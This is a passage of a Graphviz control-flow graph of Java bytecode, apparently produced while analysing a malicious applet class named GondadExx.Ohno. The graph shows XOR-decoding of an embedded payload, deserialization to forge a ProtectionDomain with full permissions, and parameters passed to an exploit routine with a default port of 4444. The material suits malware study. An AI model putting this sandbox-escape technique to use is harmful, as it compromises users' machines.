    "new java.security.CodeSource"->"dup1.r";
    "new java.net.URL"
    "dup1.r"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"file:///\""
    "dup1.r"->"push \"file:///\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"file:///\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push 0";
    "push 0"->"newarray";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"
    "newarray"->"specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"->"load.r r7";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"
    "load.r r7"->"specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"->"push 0";
    "store.i r7"
    "push 0"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "arraylength"
    "load.r r6"->"arraylength";
    "ifcmpge.i push 0"
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "arrayread.b"
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 122";
    "xor.b"
    "push 122"->"xor.b";
    "nop"
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r7 1"
    "arraywrite.b"->"inc.i r7 1";
    "goto load.i r7"
    "inc.i r7 1"->"goto load.i r7";
    "store.r r0"
    "nop"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "push 1048576"
    "load.i r7"->"push 1048576";
    "ifcmpge.i new java.io.ObjectInputStream"
    "push 1048576"->"ifcmpge.i new java.io.ObjectInputStream";
    "ifcmpge.i new java.io.ObjectInputStream"->"push 0";
    "store.i r8"
    "push 0"->"store.i r8";
    "load.i r8"
    "store.i r8"->"load.i r8";
    "load.i r8"->"load.r r6";
    "load.r r6"->"arraylength";
    "ifcmpge.i inc.i r7 1"
    "arraylength"->"ifcmpge.i inc.i r7 1";
    "ifcmpge.i inc.i r7 1"->"load.r r6";
    "load.r r6"->"load.i r8";
    "load.i r8"->"load.r r6";
    "load.r r6"->"load.i r8";
    "load.i r8"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r8 1"
    "arraywrite.b"->"inc.i r8 1";
    "goto load.i r8"
    "inc.i r8 1"->"goto load.i r8";
    "ifcmpge.i inc.i r7 1"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "new java.io.ObjectInputStream"
    "ifcmpge.i new java.io.ObjectInputStream"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>";
    "staticinvoke <GondadExx.Tmp: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"->"dup1.r";
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "checkcast"
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r4"
    "checkcast"->"store.r r4";
    "store.r r4"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "checkcast"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"1\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"
    "load.r r0"->"fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r0";
    "push \"bn\""
    "load.r r0"->"push \"bn\"";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"
    "push \"bn\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"si\""
    "load.r r0"->"push \"si\"";
    "push \"si\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r7";
    "store.r r7"->"load.r r0";
    "push \"xiaomaolv\""
    "load.r r0"->"push \"xiaomaolv\"";
    "push \"xiaomaolv\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r8"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "push \"bs\""
    "load.r r0"->"push \"bs\"";
    "push \"bs\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "load.r r4"
    "store.r r9"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r4";
    "load.r r9"
    "store.r r4"->"load.r r9";
    "ifnull push 4444"
    "load.r r9"->"ifnull push 4444";
    "ifnull push 4444"->"load.r r9";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r9"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r9"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r9";
    "goto load.r r4"
    "store.i r9"->"goto load.r r4";
    "goto load.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "load.r r8"
    "load.r r0"->"load.r r8";
    "load.r r8"->"load.r r6";
    "load.r r6"->"load.r r7";
    "load.i r9"
    "load.r r7"->"load.i r9";
    "load.i r9"->"load.r $r13";
    "staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"
    "load.r $r13"->"staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>";
    "goto return"
    "staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"->"goto return";
    "push 4444"
    "ifnull push 4444"->"push 4444";
    "push 4444"->"store.i r9";
}
